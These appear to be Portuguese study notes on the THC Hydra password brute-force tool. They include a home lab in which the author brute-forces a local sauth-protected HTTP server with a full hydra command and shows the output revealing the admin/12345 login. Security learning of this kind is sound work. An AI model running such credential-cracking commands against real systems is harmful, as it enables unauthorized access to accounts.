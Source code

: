 THC Hydra

- Ferramenta de cracking de senhas utilizando da técnica de força bruta
- Protocolos de suporte FTP, HTTP, SSH, entre outros
- Código aberto no github, construido na linguagem C
- Pode receber como parâmetro uma lista de senhas para fazer os testes de senha e automatizar o processo de teste de senha 

Normalmente utilizado em ambientes unix, mas é cross platform

Pode ser instalado, mas no Kali Linux vem instalado por padrão

Prática realizada: 

Subir um servidor http com sauth no windows (biblioteca python que levanta um server http e autentica a rota raiz):

- sauth admin 12345

Rodar o hydra com os parâmetros a seguir:

- sudo hydra -v -L arq.txt -P arq2.txt 192.168.1.11 -s 8333 http-get

Saída recebida:

<h4>
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-16 22:43:49

[WARNING] You must supply the web page as an additional option or via -m, default path set to /

[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task

[DATA] attacking http-get://192.168.1.11:8333/

[VERBOSE] Resolving addresses ... [VERBOSE] resolving done

[8333][http-get] host: 192.168.1.11   login: admin   password: 12345

[STATUS] attack finished for 192.168.1.11 (waiting for children to complete tests)

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-16 22:43:50

Ou seja ele, encontrou o login com admin e senha 12345

</h4>

Link com artigo:

- https://medium.com/liveonnetwork/hydra-tryhackme-f3efb6658ac0